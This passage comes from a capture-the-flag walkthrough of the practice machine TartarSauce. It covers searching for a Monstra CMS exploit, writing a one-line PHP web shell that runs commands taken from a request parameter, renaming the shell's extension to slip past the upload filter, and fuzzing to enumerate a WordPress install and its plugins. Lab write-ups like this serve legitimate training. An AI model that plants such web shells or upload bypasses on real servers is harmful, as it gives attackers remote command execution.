 ```bash
searchsploit -x php/webapps/43348.txt

nvim shell.PHP
cat !$
```

> **shell.PHP**:

```php
<?php  echo "<pre>" . shell_exec($_REQUEST["cmd"]) . "</pre>";php>
```

```
# http://10.10.10.88/webservices/monstra-3.0.4/admin/index.php?id=filesmanager

mv shell.PHP shell.php7
```

<br />
<img src="{{ site.img_path }}/tartarsauce_writeup/TartarSauce_09.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/tartarsauce_writeup/TartarSauce_10.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/tartarsauce_writeup/TartarSauce_11.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/tartarsauce_writeup/TartarSauce_12.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/tartarsauce_writeup/TartarSauce_13.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/tartarsauce_writeup/TartarSauce_14.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/tartarsauce_writeup/TartarSauce_15.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

As there are preventive measures in the file upload mechanism in the **Monstra CMS**, I'm going to focus on the web server and perform a discovery of files and web directories with `wfuzz`. I manage to find a new directory (**wp**), in which there is a new **WordPress CMS** available, but for the content to be displayed correctly I'm going to modify my **hosts** file so that the browser can resolve the domain name and load the resources it needs. After making all the necessary changes I can't get the page to display better, due to a typo **<ins>which I later realized</ins>**. The first thing I do is to search for installed plugins (other than the default ones) again with `wfuzz` and a custom dictionary for **WordPress CMS plugins** from **[SecLists](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt){:target="_blank"}** and I find one (**gwolle-gb**).

> **[Gwolle Guestbook](https://instawp.com/plugin/gwolle-gb/){:target="_blank"}** is a **WordPress** plugin that allows you to easily integrate a **guestbook** into your website.

```bash
cat ../nmap/targeted
wfuzz -c --hc=404 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.88/webservices/FUZZ

# http://10.10.10.88/webservices/wp/

nvim /etc/hosts
cat !$ | tail -n 1
ping -c 1 tartarsouce.htb

# http://tartarsouce.htb/webservices/wp/wp-admin
# http://tartarsauce.htb/webservices/wp/wp-login.php

# http://tartarsouce.htb/webservices/wp/wp-content/
```